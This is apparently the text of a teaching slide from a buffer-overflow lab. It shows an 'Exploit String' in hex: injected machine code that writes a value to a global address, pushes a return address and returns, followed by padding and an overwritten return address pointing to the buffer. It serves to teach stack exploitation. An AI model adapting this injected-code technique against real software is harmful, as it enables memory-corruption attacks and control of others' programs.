

# Exploit String
c7 05 60 c2 04 08 08 c3 13 3b /* movl $0x3b13c308,0x0804c260 */
68 d3 8b 04 08 /* push   $0x08048bd3 */
c3 /* ret */
00 00 00 00
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 00 00 00 /* */
88 34 68 55 /* &buf */